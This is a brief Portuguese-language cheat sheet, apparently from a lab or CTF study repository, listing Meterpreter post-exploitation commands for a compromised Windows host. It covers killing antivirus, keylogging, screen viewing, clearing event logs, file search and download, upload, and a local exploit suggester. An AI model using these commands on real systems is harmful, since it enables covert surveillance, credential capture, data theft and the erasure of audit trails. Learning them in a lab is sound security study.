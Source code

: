 # Comandos

## quando estiver com privilegios , é possível rodar esses comandos

- `run post/windows/manage/killav` - para matar algum antivirus presente na maquina

- `run vnc` - abrira uma janela e mostrará a tela na maquina alvo e tudo que o alvo está fazendo

- `screenshare` - semelhante ao vnc , porém abre um janela no navegador,tem delay e não o ponteiro

- `keyscan_start` - para capturar tudo que o alvo digita

- `keycan_dump` - para listar tudo que foi capturar

- `keyscan_stop` - para finalizar o processo

- `clearev` - para limpar logs e deixar os processos mais rapidos

- `search -d C:/Users -f *.txt` com o comando `search` seguido de um caminho é possível procurar um arquvio ou oq quiser

- Com o comando `download` e o caminho é possivel baixar um arquivo da maquina alvo ex: `download C:/Users/vboxuser/My Documents/flag.txt`

- com o comandoo `upload` é fazer fazer o upload de arquivos ex: `upload teste_upload  C:/Users/vboxuser/'My Documents'`

- tem como usar um modulo que dá recomendações de exploit , para a maquina da sessão atual modulo : `se post/multi/recon/local_exploit_suggester`
  - setar a sessão que está conectado `set session 2`
  - `set SHOWDESCRIPTION true` para mostrar a descrição
  - e `run`
